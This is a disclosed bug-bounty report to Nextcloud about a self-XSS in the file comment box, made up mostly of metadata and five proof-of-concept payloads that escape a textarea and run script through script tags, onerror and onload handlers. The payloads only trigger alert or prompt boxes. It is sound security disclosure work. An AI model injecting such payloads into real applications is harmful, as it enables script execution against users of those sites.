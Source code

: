 # Reflected Self-XSS Vulnerability in the Comment section of Files (Different-payloads)

## Report Details
- **Report ID**: 164520
- **URL**: https://hackerone.com/reports/164520
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-30T19:14:31.104Z
- **Disclosed**: 2016-08-31T13:08:24.281Z

## Reporter
- **Username**: shivakumar143
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Note::steps mentioned in report#164027



In the Comments Box,the payload to execute XSS is passed.

Test Payloads:


</textarea><script>alert(1)</script>


Also the above payload is still working..


Also try this payload

</textarea>"><img src=x onerror=prompt('XSS');>

</textarea><IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

</textarea><svg/onload=alert('XSS')>

</textarea>foo<script>alert(1)</script>




Click edit comment after posted.

XSS Triggers.













## Attachments
- Untitled_3.mp4
